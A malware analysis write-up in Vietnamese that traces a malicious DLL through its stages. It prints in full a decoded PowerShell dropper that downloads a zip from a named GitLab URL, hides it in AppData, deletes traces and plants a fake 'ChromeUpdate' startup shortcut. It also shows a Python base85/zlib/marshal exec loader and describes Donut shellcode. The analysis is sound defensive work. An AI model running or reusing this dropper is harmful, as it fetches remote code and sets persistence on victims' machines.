# Phân tích mẫu dll 32 bit: sha256: 579c2a167f31491cc43903ac9b18735413f459e3b50a027867f4bb4ff731fe64



Xem xét DLL ta thấy có một nơi có chứa hàm WinExec hàm để chạy payload mã độc. Tiến hành đặt debug và đặt breakpoint luôn ở đó.



Nó tiến hành chạy câu lệnh powershell. Tiến hành code python dump ra. Thu được kết quả đầy đủ.

[Code Dump lệnh Powershell](script/dump.py)

[File Dump lệnh Powershell](script/result_dump.txt)

Nó tiến hành chạy payload ở dạng base64. Giải mã thu được code.





Mục đích của nó là:

```Powershell
# Thiết lập giao thức TLS 1.2 cho kết nối HTTPS (tránh lỗi trên máy cũ)
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;

# Đường dẫn lưu file ZIP tải về (ẩn trong AppData\Roaming)
$zipPath = "$env:USERPROFILE\AppData\Roaming\Portal.zip";

# Thư mục sẽ giải nén nội dung file ZIP
$extractPath = "$env:USERPROFILE\AppData\Roaming\Portal";

# Tải file độc hại từ GitLab cá nhân xuống máy nạn nhân
(New-Object System.Net.WebClient).DownloadFile("https://gitlab.com/Hoangdepzaivcl/ccc/-/raw/main/Loader.zip?inline=false", $zipPath);

# Nạp thư viện .NET hỗ trợ giải nén ZIP
Add-Type -AssemblyName System.IO.Compression.FileSystem;

# Giải nén toàn bộ nội dung ZIP vào thư mục Portal
[System.IO.Compression.ZipFile]::ExtractToDirectory($zipPath, $extractPath);

# Xóa file ZIP gốc để xóa dấu vết
Remove-Item $zipPath -Force;

# Gán biến lưu thư mục chứa payload đã giải nén
$finalPath = $extractPath;

# Đường dẫn đến thư mục Startup của người dùng (chạy tự động khi đăng nhập)
$startupPath = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup";

# Đường dẫn đầy đủ cho shortcut giả mạo "ChromeUpdate"
$shortcutPath = "$startupPath\ChromeUpdate.lnk";

# Tạo đối tượng COM WScript.Shell để thao tác với shortcut Windows
$WshShell = New-Object -ComObject WScript.Shell;

# Khởi tạo đối tượng shortcut tại đường dẫn đã định
$shortcut = $WshShell.CreateShortcut($shortcutPath);

# Đặt chương trình đích cho shortcut là PowerShell.exe
$shortcut.TargetPath = "powershell.exe";

# Tham số dòng lệnh: ẩn cửa sổ, di chuyển đến thư mục payload và chạy Python script
$shortcut.Arguments = '-NoProfile -WindowStyle Hidden -Command "Set-Location -Path \"' + $env:USERPROFILE + '\AppData\Roaming\Portal\"; ./python.exe Lib/start.py"';

# Thư mục làm việc mặc định khi shortcut được kích hoạt
$shortcut.WorkingDirectory = $finalPath;

# Cửa sổ shortcut chạy ở chế độ thu nhỏ (7 = Minimized)
$shortcut.WindowStyle = 7;

# Lưu shortcut vào ổ đĩa -> mỗi lần đăng nhập Windows sẽ tự động chạy payload
$shortcut.Save();

# Di chuyển thư mục làm việc của phiên PowerShell hiện tại đến thư mục payload
Set-Location -Path $finalPath;

# Thực thi ngay lập tức Python script độc hại (không cần chờ khởi động lại)
./python.exe Lib/start.py
```

Tiến hành phân tích tiếp bằng việc tải file zip về rồi tiếp tục phân tích file start.py thôi.



Nó tiếp tục thực thi payload bằng việc:

```Python
import base64,zlib,marshal
exec(marshal.loads(zlib.decompress(base64.b85decode(data))))
```

Nó thực hiện giải mã base85 sau đó giải nén dữ liệu bằng zlib cuối cùng là nạp bằng marshal.

Viết code để giải mã ra pyc => xong từ pyc sẽ unpyc3 để giải mã sang code python bình thường.

[Dump pyc](script/dump_code.py)



Giải mã thu được code tiếp. Tiếp tục tiến hành giải mã payload tiếp.



Thu được mã nguồn kế tiếp




Giải mã tiếp thu được Donut Shellcode



Lưu ý cần sửa đổi lại RC4 ở đây bị lỗi swap giá trị.



Sử dụng công cụ donut-decryptor để dump từ shellcode ra được file exe. Vì Donut là một công cụ tạo shellcode mạnh mẽ, chuyển đổi các tệp thực thi như .NET assemblies, EXE, DLL, VBScript và JScript thành shellcode độc lập với vị trí. Shellcode này có thể được thực thi trực tiếp trong bộ nhớ mà không cần ghi xuống đĩa, giúp các cuộc tấn công trở nên khó phát hiện hơn. 



Thu được file exe ngôn ngữ C# được pack bởi .NET Reactor(6.X). 
                                                                        